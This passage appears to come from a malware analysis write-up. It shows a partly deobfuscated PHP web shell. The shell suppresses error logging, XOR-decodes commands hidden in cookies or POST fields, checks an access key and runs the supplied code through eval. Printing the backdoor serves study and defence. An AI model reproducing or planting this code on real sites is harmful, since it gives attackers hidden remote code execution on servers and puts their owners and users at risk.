 ```php
```

Without spending too much time on this stage, lets go ahead and replace
array references to proper value where possible:

```php
@ini_set('error_log', NULL);
@ini_set('log_errors', 0);
@ini_set('max_execution_time', 0);
@set_time_limit(0);

global $x864b367c;
function  r6971a($e76477, $qead07){
	global $rb22c05fb;
	$e112aa2d = "";
	for ($n28c=0; $n28c<strlen($e76477);){
		for ($o70350cf=0; $o70350cf<strlen($qead07) && $n28c<strlen($e76477);$o70350cf++, $n28c++){
            $e112aa2d .= chr(ord($e76477[$n28c]) ^ ord($qead07[$o70350cf]));
        }
    }
    return $e112aa2d;
}

function  b6ddf34f($e76477, $qead07){
    global $rb22c05fb;
    global $x864b367c;
    return r6971a(r6971a($e76477, $x864b367c), $qead07);
}

foreach ($_COOKIE as $qead07=>$l0c59b){
    $e76477 = $l0c59b;
    $k93f152 = $qead07;
}

if (!$e76477){
    foreach ($_POST as $qead07=>$l0c59b){
        $e76477 = $l0c59b;
        $k93f152 = $qead07;
    }
}

$e76477 = @unserialize(b6ddf34f(base64_decode($e76477), $k93f152));

if (isset($e76477['ak']) && $x864b367c==$e76477['ak']){
    if ($e76477['a'] == 'i'){
        $n28c = Array('pv' => @phpversion(),'sv' => '1.0-1',);
        echo @serialize($n28c);
    }
    elseif ($e76477['a'] == 'e'){
        eval/*v4c8*/($e76477['d']);
    }
    exit();
}
```
